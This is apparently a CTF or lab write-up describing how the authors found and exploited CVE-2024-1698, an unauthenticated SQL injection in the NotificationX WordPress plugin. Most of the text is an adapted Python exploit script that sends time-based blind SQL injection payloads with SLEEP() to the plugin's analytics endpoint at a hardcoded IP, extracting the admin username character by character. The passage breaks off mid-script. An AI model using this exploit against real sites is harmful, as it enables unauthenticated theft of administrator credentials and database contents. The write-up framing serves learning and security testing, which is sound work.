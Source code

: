 
## Searching and Choosing for Vulnerabilities

When we searched the versions each one we found we searched for vulnerabilities, so when we found notificationx v1 and seached we found CVE-2024-1698, that was exactly what we where looking for.

```txt
The NotificationX (...) plugin for WordPress is vulnerable to SQL Injection via the 'type' parameter in all versions up to, and including, 2.8.2 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.

This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.
(https://nvd.nist.gov/vuln/detail/cve-2024-1698)
```

## Exploring the Vulnerabilities

Now that we had our vulnerability, it was time to explore it. To do that we found an [exploit](https://github.com/kamranhasan/CVE-2024-1698-Exploit) script and adapted it to our site. 

```py
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 4

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

# We already new the admin username, but in case the admin had another username in the database we decided to assume we didn't knew and try to find it to be sure
admin_username = "" 
admin_password_hash = ""

session = requests.Session()

# Find admin username length
username_length = 0
for length in range(1, 41):  # Assuming username length is less than 40 characters
    resp_length = session.post(url, data={
        "nx_id": 1337,
        "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"
    })

    # Elapsed time > delay if delay happened due to SQLi
    if resp_length.elapsed.total_seconds() > delay:
        username_length = length
        print("Admin username length:", username_length)
        break

# Find admin username
for idx_username in range(1, username_length + 1):
    # Iterate over all the printable characters + NULL byte
    for ascii_val_username in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_username = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"
        })

```